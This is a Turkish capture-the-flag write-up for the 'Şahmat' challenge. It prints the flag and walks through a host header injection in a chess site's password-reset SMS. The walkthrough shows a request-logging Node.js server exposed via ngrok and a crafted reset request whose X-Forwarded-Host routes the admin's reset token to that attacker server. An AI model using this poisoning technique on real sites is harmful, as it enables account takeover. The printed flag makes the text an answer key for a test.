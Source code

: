 # Şahmat

|    |  |
| ------------- |:-------------:|
| Zorluk        | Çerez(100 Puan)|
| Aşama         | Yarı Final    |
| Soru Türü     | Miscellaneous |
| Dosyalar      | sms.apk       |    
| Yazar         | [Rednexie](https://github.com/Rednexie) | 


### Sorunun alakalı olduğu alanlar
- Android Uygulama Güvenliği
- Web Uygulama Güvenliği 


## Soru Açıklaması
```
Zeki ama teknolojik konulardan bihaber bir oyuncu olan şahmat, kurduğu platformdan telefonuna gelen tüm SMS'lerdeki bağlantılara tıklamaktadır.
```


### Sorunun alakalı olduğu alanlar
- Web Güvenliği
- Android 

## İpuçları
```
URL'yi nereden bileyim ki, senden duydum ben. ~sunucu
```

## Bayrak
```
BayrakBende{ş4h_M4t_L1br*r4l}
```


# WriteUp

## Soru Hakkında Bildiklerimiz ve Giriş

Soru ile ilgili bilgilerimiz aşağıdaki gibidir: 
- Soru için bize bir web sitesi, bir de Android Uygulaması(APK olarak) verilmiştir.
- Soruda verilen sitenin sahipleri, siteden gelen her türlü sms'teki bağlantıya tıklamaktadırlar, kendileri göndermiş olmasalar bile. 


## APK'nın incelenmesi ve Sitenin Genel Analizi

Soruda bize bir adet APK ve bir adet web sitesine erişim verilmektedir. 
Siteyi açtığımızda karşımıza popup olarak bir yönlendirici token'ı çıkmaktadır. Bu token gelecekte APK dosyasında karşımıza çıkacağı için şimdilik boşverebiliriz.


Sitenin içeriği ve amacına göz attığımızda, görüldüğü üzere şahmat isimli bir çevrimiçi satranç platformudur. Ayrıca bir sms onaylama sistemiyle anlaşmalı olduğu görülmektedir. Kullanıcılar telefon numaralarıyla buraya kaydolabilmektedirler. Ayrıca şifre sıfırlama gibi olmazsa olmaz platform özellikleri de mevcuttur ve sorunsuz çalışmaktadır.


APK'ya geri döndüğümüzde, APK ise kullanıcıların telefon numaralarını vermek istemedikleri, ancak SMS onaylaması isteyen yerlerde kullanmaları için tasarlanmış bir sistemdir. Şahmat'tan aldığımız token'ı uygulamayı açtığımızda çıkan kısma girdiğimizde, herhangi bir ücret almadan birkaç tane telefon numarası kullanımımıza sunulmaktadır. Bize düşen de bu telefon numaralarını kullanarak Şahmat üyeliğimizi oluşturmak ve hesapla ilgili fonskiyonları inceleyebilmektir.

Kayıt olma kısmına telefon numaramız, kullanıcı admız ve şifremizi girdiğimizde herhangi bir sıradışı durumla karşılaşmamamız gerekmektedir. Uygulamadan seçtiğimz numaranın mesajlarına, kaydımızı tamamladığımızla ilgili bir SMS gelecektir. Diğer kısımları incelediğimizde ise gözümüze çarpan şey şu olmalıdır: Telefon numarasını bilmediğimiz kullanıcıların telefonlarına şifre sıfırlama bağlantısı gönderebilmekteyiz, bunu kontrol etmek için kendi kullanıcı adımızı girerek kendimize bir SMS gönderebiliriz.

Burada aklımıza takılması gereken, gelen sms bağlantısıdaki URL'nin hardcoded olamayacak kadar spesifik olmasıdır. URL https değildir ve bir port içermektedir. Muhtemelen sunucu tarafında bir şekilde isteğin geldiği URL elde edilmekte ve gönderilen SMS'e bağlantı yerleştirilirken bu kullanılmaktadır. Bu da Host Header Manipulation Güvenlik Zafiyetinin olma ihtimalini göstermektedir. Sunucudan gelen yanıt başlıklarına baktığımızda, nginx veya apache gibi herhangi bir reverse proxy'nin varlığına rastlamamaktayız:

```
x-ratelimit-remaining 0
Connection            keep-alive
Keep-Alive            timeout=72
Accept-Ranges         bytes
Content-Length        6872
Cache-Control         public, max-age=0
Content-Type          text/html; charset=utf-8
Date                  Fri, 30 May 2025 20:52:54 GMT
ETag                  W/"1ad8-197225947e0"
Last-Modified         Fri, 30 May 2025 17:59:25 GMT
```


Bu da düşündüğümüz gibi Host Header Manipulation güvenlik açığını doğrulayan bir etkendir. 


## Zafiyetin Sömürülmesi


Sorunun açıklama kısmında bize platformun şu anki yöneticisi olan 'admin' kullanıcısının, herhangi bir kontrol yapmaksızın platformdan telefonuna gelen her türlü SMS'teki bağlantıyı açtığı belirtilmektedir. 
Yani gönderdiğimiz istekteki 'x-forwarded-host' değerini değiştirerek gönderdiğimiz bir şifre sıfırlama isteği, admin'e bizim url'mizi gönderecektir.


Bunun için herkese açık bir sunucuya ihtiyacımız olacak. Kendi hosting veya sunucumuzu kullanabilir, ya da ngrok veya localtunnel gibi reverse proxy'ler aracılığıyla cihazımızı dışarıya açabiliriz. Ben bu örnekte ngrok kullanacağım.
Ayrıca yine istenilen dil kullanılacak şekilde, şifre sıfırlama token'ını alabilmemiz için sunucuya gelen tüm istekleri terminale yazdıran bir web sunucusuna ihtiyacımız olacak. Ben Node.js tercih edeceğim:

```js
const http = require('http');
const url = require('url');

const server = http.createServer((req, res) => {
    console.log(new Date().toISOString());
    const parsedUrl = url.parse(req.url, true);
    console.log(parsedUrl.pathname);
    Object.entries(parsedUrl.query).forEach(([k, v]) => console.log(`${k}=${v}`));
    res.end();
});

server.listen(3000);
```

Sunucumuzu çalıştırdıktan sonra, ngrok ile portumuzu dışarı çıkaralım:

```
ngrok http 3000
```

Bu bize çıktı olarak tüm herkesin erişebileceği bir url verecektir, örneğin:

`https://xxxx-xxxx-xxxx-xxxx-xxxx.ngrok-free.app`

Şimdi, url'mizi gerekli kısma girmek üzere bir şifre sıfırlama isteği gönderelim: 

```
GET /api/reset?identifier=admin&method=username HTTP/1.1
X-Forwarded-Host: https://xxxx-xxxx-xxxx-xxxx-xxxx.ngrok-free.app
Host: soru.bayraksende.com:8383
Accept: */*
Accept-Language: tr,en-US;q=0.9,en;q=0.8
Referer: http://localhost:8383/reset

```

Şifre sıfırlama talimatının başarıyla gönderildiği mesajını almamızın ardından, sunucumuzun çalıştığı terminalde bir çıktı gözükecektir:

```
2025-05-31T14:25:36.789Z
/complete-resetation
token=9d207b8340804c8ebdbb73886958ae13
```

Bu token ile admin şifresini sıfırlayıp, hesaba girebiliriz. Girişin ardından bizi karşılayan profil kısmında, admin kullanıcısının hesap açıklamasında flag görünecektir.

